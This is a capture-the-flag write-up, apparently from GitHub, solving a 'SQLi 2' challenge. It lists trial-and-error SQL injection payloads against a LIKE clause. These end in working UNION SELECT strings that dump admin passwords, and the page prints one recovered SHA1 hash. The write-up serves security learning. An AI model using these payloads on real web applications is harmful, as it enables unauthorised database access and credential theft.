 ## SQLi 2 / SQLi

![grafik](https://user-images.githubusercontent.com/84674087/134689346-87c189a9-924e-4729-833a-d9a5a92674cf.png)

#### Solution
- When we click through the member alphabet we notice the parameter `?q=` in the URL:
![grafik](https://user-images.githubusercontent.com/84674087/134702569-65fce3cf-1e6e-402f-b9da-fef40acd5d7d.png)

- Being at section "D": We extend D to Derun (one available user) in the parameter
- The output is Derun only:

![grafik](https://user-images.githubusercontent.com/84674087/134702827-f2750dfb-2ea1-4875-8fea-8d3077c8a5af.png)

- We try to further manipulate the parameter by writing `Derun'`:
- The output is a Debug info: **DEBUG: SELECT username, admin FROM members WHERE username LIKE ... %'**

![grafik](https://user-images.githubusercontent.com/84674087/134702341-cbeb29aa-9e7c-4116-a73e-1e5f4e86edfd.png)

- The difference to SQLi1 is the WHERE clause, which does not contain `=` but the **LIKE Operator**
- The LIKE Operator is often used with wildcards such as: `%` `_` (FYR: [:https://www.w3schools.com/SQL/sql_like.asp](https://www.w3schools.com/SQL/sql_like.asp))
- For example, the SQL DB displays all usernames and admins when we enter `%` 
- Now the question: How can we manipulate the SQL query to present admins and their corresponding passwords ?? 
- Pro Tip: Go through each SQL operator, try to understand all of them and think about how to leverage those --> [www.w3schools.com/SQL](https://www.w3schools.com/SQL/default.asp)
- After a while we learn to escape the LIKE operator and use other operators subsequently
- My Trial & Error journey:
   - `___a%' AND password LIKE '`
   - `______x'; SELECT username FROM members WHERE username = 'Derun`
   - `%' ORDER BY admin ;--`
   - `%' ORDER BY 1--`
   - Until here it does no work out
   - `%' ORDER BY admin; '`
   - `%' ORDER BY admin DESC; '`
   - Now I notice that my SQL manipulation does have an effect onto the output (thanks to **ORDER BY Operator**)
   - By changing the admin order (ASC / DESC) I recognize that only bellamond is switching its position from top to bottom and vice versa
   - So, it seems this account is an admin
   - `%' UNION SELECT admin, password FROM members WHERE username LIKE '`
   - `%' UNION SELECT admin, password FROM members WHERE username LIKE '%' ORDER BY admin DESC; '` ... nearly
   - `%' UNION SELECT password, admin FROM members WHERE username LIKE '%' ORDER BY admin DESC; '` ... Yeah!
   - The **UNION Operator** helps to combine the result-set of two or more SELECT statements. 
   - I use the same table "members" but query different columns:
      -  **username, admin VS password, admin**
      -  The output is not handy and clear, but we realize that admins are displayed, but when there is no corresponding username, the password is shown instead
      -  More precisely: The SHA1 Hash (for bellamond: `1b774bc166f3f8918e900fcef8752817bae76a37`)
      -  This can be figured out here: [hash_identifier](https://hashes.com/en/tools/hash_identifier)
